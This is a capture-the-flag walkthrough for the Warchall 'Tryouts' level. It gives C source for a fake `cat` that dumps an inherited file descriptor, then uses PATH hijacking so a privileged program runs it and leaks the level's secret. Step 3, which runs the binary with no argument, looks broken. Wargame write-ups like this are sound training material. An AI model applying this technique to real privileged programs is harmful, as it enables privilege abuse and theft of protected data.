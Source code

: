 ## Level 13 - Warchall: Tryouts

1. Create `cat.c` with the following content using `nano` or any text editor in the Home directory:
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
int main(int argc, char *argv[]) {
    FILE *fp = fopen(argv[1], "w");
    char buf[16];
    memset(buf, 0, sizeof buf);
    lseek(3, 0, SEEK_SET);
    read(3, buf, sizeof buf);
    fprintf(fp, "%s", buf);
    return 0;
}
```
2. Compile `cat.c`
```bash
gcc -m32 cat.c -o cat
```
3. Execute the compiled cat:

```bash
./cat
```
4.  Add the directory containing the `cat` binary to the `PATH` environment variable:
```bash
export PATH=$HOME:$PATH
```
5. Navigate to the directory where the `tryouts executable` is located:
```bash
cd /home/level/matrixman/13_tryouts
```
6. Run the `tryouts`
```bash
./tryouts
```
7. Interrupt the `tryouts` process using `Ctrl + C`.
8. View the contents of the `~/seed` file, the solution is there:
```bash
more ~/seed
```
